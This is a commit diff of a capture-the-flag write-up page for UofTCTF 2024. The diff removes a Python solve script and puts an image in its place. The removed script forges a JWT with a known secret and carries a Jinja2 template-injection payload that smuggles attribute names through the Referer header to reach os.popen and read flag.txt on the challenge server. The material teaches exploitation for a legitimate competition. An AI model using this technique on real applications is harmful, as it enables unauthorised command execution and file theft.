

Before and after one commit to ACHUX21/Writeups, a Markdown page: 2024/UofTCTF/solutions.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/2024/UofTCTF/solutions.md
+++ b/2024/UofTCTF/solutions.md
@@ -117,44 +117,4 @@ Solution :
 
  ### PY:
 
-  ```python
-  #!/usr/bin/env python3
-import jwt
-import requests
-from bs4 import BeautifulSoup
-
-secret_key = 'torontobluejays'
-username = """
-{{lipsum|attr(request.referrer.split().pop(0))|attr(request.referrer.split().pop(1))(request.referrer.split().pop(2))|attr(request.referrer.split().pop(3))(request.referrer.split().pop(4))|attr(request.referrer.split().pop(5))()}}
-"""
-pay = """__globals__ __getitem__ os popen cat${IFS}flag.txt read """
-
-
-def genJWT(username):
-    payload = {
-        "username": username,
-}
-    token = jwt.encode(payload, secret_key, algorithm='HS256')
-    return token
-
-
-jwt_token = genJWT(username)
-print(jwt_token)
-
-url = "https://uoftctf-my-first-app.chals.io:443/?test="
-cookies = {"auth_token": jwt_token}
-
-headers = {"referer": pay}
-response = requests.get(url,headers=headers, cookies=cookies)
-#response = requests.get(url,headers=headers, cookies=cookies, proxies=proxies)
-cont = response.text
-
-
-s = BeautifulSoup(cont, 'html.parser')
-cov = s.find('div', class_='container')
-
-if cov:
-    print(cov.prettify())
-else:
-    print(cont)
-```
+![image](https://github.com/ACHUX21/Writeups/assets/130113878/0fe38719-200d-42f3-9ea6-93ac24841d1e)
````
